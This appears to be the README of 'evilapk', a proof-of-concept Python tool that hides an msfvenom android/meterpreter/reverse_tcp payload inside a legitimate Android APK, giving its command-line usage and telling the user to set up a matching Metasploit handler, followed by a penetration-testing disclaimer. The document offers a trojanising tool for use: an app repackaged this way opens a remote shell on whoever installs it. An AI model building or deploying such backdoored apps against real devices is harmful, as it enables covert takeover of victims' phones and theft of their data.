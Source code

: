 # Overview
Python tool as a PoC for embedding a msfvenom APK Payload inside a legitimate Android APK

Tested on Kali Linux 2025.2

To be used for penetration testing or educational purposes only!

Please note that this project is an early state. As such, you might find bugs, flaws or mulfunctions.
Use it at your own risk!

# Usage
```
python3 evilapk.py --lhost IP --lport PORT -x target.apk
```
The utilized msfvenom payload is `android/meterpreter/reverse_tcp`. Don't forget to set that inside the Metasploit handler.

# Disclaimer
Usage of evilapk for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
I assume NO liability and I am NOT responsible for any misuse or damage caused by this tool.
